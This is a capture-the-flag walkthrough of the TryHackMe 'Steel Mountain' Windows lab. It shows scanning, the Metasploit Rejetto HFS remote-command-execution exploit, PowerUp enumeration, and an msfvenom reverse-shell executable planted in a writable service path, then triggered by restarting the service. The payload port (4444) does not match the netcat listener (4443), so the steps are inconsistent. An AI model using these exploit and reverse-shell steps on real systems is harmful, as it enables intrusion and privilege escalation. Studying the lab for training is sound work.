 # Steel Mountain Writeup
#pentest/tryhackme

## Great alternative writeup
* [TryHackMe STEEL MOUNTAIN - Metasploit and No Metasploit Version](https://www.cybersecpadawan.com/2020/04/tryhackme-steel-mountain-metasploit-and.html)

## Let’s start

```shell
$ nmap -sV <machine-ip>

PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
8080/tcp  open  http               HttpFileServer httpd 2.3
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49161/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Notice the `HttpFileServer` running on port `8080`. It’s version is `2.3`, can we exploit it?

```shell
kali@kali:~$ searchsploit "Http File Server"
------------------------------------------------------------------------------------------------------------------------------ 
 Exploit Title                                                                                                                |  Path
------------------------------------------------------------------------------------------------------------------------------ 
...
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                           | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                           | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                      | windows/
...
------------------------------------------------------------------------------------------------------------------------------ 
```

Seems like we have a vulnerable version on our hands! Let’s go for metasploit!

```shell
$ msfconsole
msf5 > search "HttpFileServer" 

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

msf5 > use 0
msf5 > info

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  HTTPDELAY  10               no        Seconds to wait before terminating web server
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      80               yes       The target port (TCP)
  SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT    8080             yes       The local port to listen on.
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The path of the web application
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host

msf5 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.10.94.115
rhosts => 10.10.94.115
msf5 exploit(windows/http/rejetto_hfs_exec) > set rport 8080
rport => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit
[*] Started reverse TCP handler on 10.2.13.100:4444 
...
meterpreter >
```

Success!! Let’s explore!

```shell
meterpreter > cd C:/Users/bill/Desktop
meterpreter > cat user.txt
```

And we get the user flag. :) 

## Enumerating
To enumerate this machine, we will use a powershell script called PowerUp, that’s purpose is to evaluate a Windows machine and determine any abnormalities. PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations. You can download the script  [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) .
 Now you can use the upload command in Metasploit to upload the script.

```shell
kali@kali:~$ mkdir windows_scripts && cd windows_scripts
kali@kali:~$ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
--2020-06-20 13:21:21--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
meterpreter > upload windows_scripts/PowerUp.ps1
``` 

To execute this using Meterpreter, I will type `load powershell` into meterpreter. Then I will enter powershell by entering `powershell_shell`.

```shell
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
[*] Running Invoke-AllChecks
...
```

Take close attention to the **CanRestart** option that is set to true. What is the name of the unquoted service path service name?
`AdvancedSystemCareService9`

The **CanRestart** option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program! Let’s use **msfvenom** to exploit this.

```shell
# In another tab in our comnputer
$ msfvenom -p windows/shell_reverse_tcp LHOST=<our-machine-ip> LPORT=4444 -e x86/shikata_ga_nai -f exe -o Advanced.exe

# Back to metasploit
meterpreter > cd C:/Program Files (x86)/IOBit
meterpreter > upload Advanced.exe
```

If you’ve gotten to this point and are somewhat confused about what Unquoted Service Paths are, that’s ok.  In a nutshell, USP are a misconfiguration in a directory’s path that contains spaces in which the path isn’t encapsulated in double quotations.  If the path to an executable is “quoted,” the path is specifically defined in the machine and not open to interpretation usually.  If the path is not quoted, then you can maliciously insert executables in to the “spaces.”  This  [link ](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae) provides a pretty good overview of what is going on to cause these vulnerabilities.  

From here we need to determine the locations within the service path that can be exploited.  We see that in this case we could try C:\Program Files (x86), and try to inject something named Program.exe, but we likely do not have permission to do so.  However we know that we have permission to modify the service as we have privileges to run it (StartName: LocalSystem).

Now that we know that we have privileges, and that we have a possible path to inject our malicious executable in to, we need to craft it.  We can use msfvenom to do this.  Keep note that the service path we are targeting is Advanced SystemCare, so we will need to name our malicious executable “Advanced.exe” as this is what the system will attempt to run first. 

Now let’s exploit it.

```shell
# In another bash tab
$ nc -nlvp 4443 # Port that will set with msfvenom

# In metasploit
meterpreter > shell
windows shell > sc stop AdvancedSystemCareService9
windows shell > sc start AdvancedSystemCareService9

# We should have a reverse shell on out netcat!
```

